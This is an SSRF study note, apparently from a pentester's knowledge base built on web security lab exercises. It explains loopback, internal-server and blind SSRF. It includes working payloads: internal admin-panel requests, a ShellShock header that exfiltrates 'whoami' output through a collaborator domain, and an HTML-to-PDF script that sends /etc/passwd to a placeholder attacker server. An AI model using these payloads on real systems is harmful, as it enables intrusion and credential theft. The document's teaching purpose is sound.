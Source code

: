 Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.

## SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.

Main point of intrests:
- Pages accessible only from localhost (like administrative panels)
- Services on other ports

>[!example]
>Original request:
>```http
>POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1>
>```
>
> Malicious request:
> ```http
> POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://localhost/admin
>```

Depending on the library used to issue the requests (eg. python [urllib](https://docs.python.org/3.8/library/urllib.html)), also other protocols may be supported and mis-used:
- `file://`
- `ftp://`
## SSRF attacks against other servers

SSRF against other servers often arises when the application server is able to interact with other back-end systems that are not directly reachable by users. 
These systems often have non-routable private IP addresses and often have a weaker security posture. In many cases, they contain sensitive functionality often accessibile  without authentication.

>[!example]
>Request against an internal, non-routed, administrative panel:
>
>```http
>POST /product/stock HTTP/1.1
Host: 0ae400fb040404ddc56df732005a00ae.web-security-academy.net
Cookie: session=jQGNv9ozVPtY2SdltFQVanHUn7mzqQsk
Content-Length: 73
Connection: close
>
>stockApi=http://192.168.0.100:8080/admin/delete?username=carlos&storeId=1
>```

>[!tip] Chain multiple SSRF!
>Remember that you can chain multiple SSRF in order to increase the attack surface! However, **you must url-encode parameters and special characters one time for every component you are going trough**:
>
>Eg with 3 nodes: `curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=cat%252520%25252Froot%25252Fflag%25252Etxt"` (`cat /root/flag.txt` has been url-encoded 3 times)
## Blind SSRF

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF can be found using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques and sometimes also looking at response times.

>[!note]
>It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

Identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. However, it can still be leveraged to probe for other vulnerabilities. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure. [^1]

[^1]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient

>[!example] Exploit a blind SSRF to exfiltrate usernames from targets vulnerable to ShellShock
>```http
GET /product?productId=1 HTTP/1.1
Host: 0a240091041ee9e2c2e8e317006a00a4.web-security-academy.net
Cookie: session=N0jjt4vE0NGhsIgr52oW9MFtvlSuBLv2
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).cp5wj8xh4c0qaefd19tzdw6dh4nvbuzj.oastify.com
Referer: http://192.168.0.§0§:8080/
Connection: close
>```

## Other attack surface

- Partial URLs in requests (eg. only a hostname or part of a URL path into request parameters)
- URLs within data formats
	- XML leading to SSRF using [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md), 
	- File converters or parsers and HTML files containing images (eg. wkhtmltopdf [^html2pdf] ) 
- Referer header or other headers ([Host header SSRF attacks (aka Routing-based SSRF)](Host%20Header%20attacks.md#Host%20header%20SSRF%20attacks%20(aka%20Routing-based%20SSRF)))
- [SSRF registering an arbitrary OpenID Connect client application](OpenID%20Connect%20attacks.md#SSRF%20registering%20an%20arbitrary%20client%20application)

[^html2pdf]: [wkhtmltopdf](https://wkhtmltopdf.org/downloads.html), wkhtmltopdf.org

PoC for leaking arbitrary files when converting HTML to PDF:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

## SSRF evasion and bypasses

- [Evading Restrictions](Evading%20Restrictions.md)
- [A New Era of SSRF](https://portswigger.net/research/top-10-web-hacking-techniques-of-2017#1)
- [DNS rebinding](../Services/DNS%20-%20Domain%20Name%20System.md#DNS%20rebinding)

## External resources and tools

- [HackTrick (SSRF)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [Targeting auxiliary systems](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#aux)
- [SSRFPwned](https://github.com/blackhatethicalhacking/SSRFPwned) - Checks for SSRF using built-in custom Payloads after fetching URLs from Multiple Passive Sources & applying complex patterns aimed at SSRF